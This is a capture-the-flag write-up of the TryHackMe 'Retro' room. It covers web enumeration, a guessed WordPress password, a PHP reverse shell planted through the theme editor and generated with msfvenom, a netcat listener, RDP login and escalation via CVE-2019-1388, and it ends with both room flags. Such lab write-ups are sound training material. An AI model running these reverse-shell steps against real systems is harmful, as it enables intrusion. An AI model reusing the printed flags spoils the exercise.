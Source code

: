 ```yaml
---
title: Retro Write-up | TryHackMe
slug: retro
author: Utkarsh M
date: '2022-06-15'
categories:
  - TryHackMe
tags:
  - write up
  - tryhackme
  - ctf
  - hard
  - red team

---
```


![screenshot](/assets/img/thm/retro/head.img)

We can see that a webserver is hosted on the machine.

While waiting for the recommended time, :) let’s run a gobuster directory scan:

```bash
gobuster dir --wordlist=/usr/share/dict/directory-list-2.3-medium.txt --url=http://10.10.36.56/
```

we get /retro as one of the results. It leads to a webpage. :)
lets run a threader3000 scan on the background.

```bash
python threader3000
10.10.36.56
```

![screenshot](/assets/img/thm/retro/1.png)

Running the suggested nmap scan with curent gobuster scan results:

![screenshot](/assets/img/thm/retro/2.png)

hmm :P So the site is a wordpress site. From the posts we can see that wade is user of the wordpress. Lets check out for different pages.

![screenshot](/assets/img/thm/retro/3.png)

parzival ends up working as the password. xD

Hmm, :) we can access Appearance->Theme editor. ;) Let’s use a php-reverse-shell. I am going to change 404.php with the reverse shell code. :)

Setting up a netcat listener:

```bash
nc -lvnp 1234
```

The usual php-reverse-shell that I use was giving issues so I generated a new one using msfvenom:

```bash
msfvenom -p php/reverse_php LHOST=10.17.47.158 LPORT=4444 -f raw -o mew.php
```

After setting up a netcat listener for the same. :)

:) we finally get access to the system but as user: iusr

![screenshot](/assets/img/thm/retro/4.png)

The shell just keeps on dying. :-;

Hmm, :) Trying to connect to the server via rdp using the wade’s wordpress credential works

```bash
xfreerdp /u:wade /p:parzival /cert:ignore /v:10.10.36.56 /workarea
```

![screenshot](/assets/img/thm/retro/5.png)

First Flag on desktop:

```
3b99fbdc6d430bfb51c72c651a261927
```

There is a bookmark in chrome about a vulnerability: [CVE-2019–1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388)

:) Looking at this Video regarding the vulnerability:

<iframe width="560" height="315" src="https://www.youtube.com/embed/3BQKpPNlTSo" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

the file in the recycle bin matches the one in the video, recovering it and following the procedure to get system previleges, we can get our final flag. :)

```
7958b569565d7bd88d10c6f22d1c4063
```
